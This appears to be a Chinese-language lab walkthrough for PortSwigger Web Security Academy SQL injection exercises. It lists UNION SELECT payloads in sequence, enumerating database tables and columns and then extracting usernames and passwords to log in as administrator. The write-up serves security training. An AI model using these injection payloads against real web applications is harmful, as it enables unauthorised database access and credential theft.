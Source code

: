 https://0a28008b03c30d358415a6c0001f0033.web-security-academy.net/
![image](https://hackmd.io/_uploads/ryteMOft6.png)
### Solution
> [!NOTE]
>:brain: 思考邏輯:\
>題目要求使用 UNION attack 檢索，並使用administrator登入。所以先確認UNION SELECT 可以運作，再透過查詢 information_schema.tables 看 table 內容 ， 最後在table: users_jlkbxy中找到administrator。

#### 1. /filter?category=Gifts'+UNION+SELECT+'dev','core'--
![image](https://hackmd.io/_uploads/HyTHhFftp.png)
![image](https://hackmd.io/_uploads/ryO8htGYT.png)

#### 2. /filter?category=Gifts'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
![image](https://hackmd.io/_uploads/SkMt3FGK6.png)
![image](https://hackmd.io/_uploads/HyBBpFzYa.png)

#### 3. /filter?category=Gift'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='pg_user'--
![image](https://hackmd.io/_uploads/Bkz_pKzK6.png)

#### 4. /filter?category=%27+UNION+SELECT+usename,+passwd+FROM+pg_user--
![image](https://hackmd.io/_uploads/SkGxeqfFT.png)
> 沒找到，可能是找錯Table

#### 5. /filter?category=Gifts%27+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name=%27users_jlkbxy%27--
![image](https://hackmd.io/_uploads/S1QQzqft6.png)

#### 6. /filter?category=%27+UNION+SELECT+username_fryeje,+password_tpgbyn+FROM+users_jlkbxy--
![image](https://hackmd.io/_uploads/SJFPMcGKa.png)

### Solved
LOGIN
![image](https://hackmd.io/_uploads/Hkx5z9GYT.png)
![image](https://hackmd.io/_uploads/B1Mdtjft6.png)

## Lab: SQL injection attack, listing the database contents on Oracle
![image](https://hackmd.io/_uploads/SJeqcizFa.png)
https://0a910058049642e28030a39200f90094.web-security-academy.net/
![image](https://hackmd.io/_uploads/rJDDqjfYp.png)
